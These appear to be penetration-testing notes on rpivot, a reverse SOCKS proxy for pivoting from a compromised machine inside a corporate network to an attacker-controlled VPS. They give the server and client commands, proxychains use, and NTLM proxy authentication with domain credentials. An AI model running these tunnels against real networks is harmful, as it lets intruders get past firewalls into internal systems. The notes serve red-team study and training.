 
- Rpivot is a reverse SOCKS proxy tool for SOCKS tunneling
- Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side

#### Scenario 

You’ve compromised a machine inside a **corporate internal network (Pivot Machine)**, which **cannot be accessed directly** from the outside due to a firewall. You want to access a service (say, an internal web server running on port 8080) that is **only available locally on that pivot machine**.

You control a **public VPS (Server)**, which is exposed to the internet and under your control. You also have access to the **attacker machine (Client)**.

You can use  rpivot to **expose port 8080 of the pivot machine to your attacker machine via your public VPS** 





#### Syntax


1. Running the Rpivot server from the Attack Host

```python
python3 server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0
```




2. Connecting to the Rpivot server from the pivot box

```python
python3 client.py --server-ip <attack_host_ip> --server-port 9999
```



3. Now we can configure proxychains to proxy all traffic via the SOCKS tunnel created using rpivot to the target network

```bash
proxychains curl <internal_network_ip>
```




Similar to the pivot proxy above, there could be scenarios where we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have **HTTP-proxy with NTLM authentication** configured with the DC. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy


```python
python3 client.py --server-ip <IPAddressOfTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```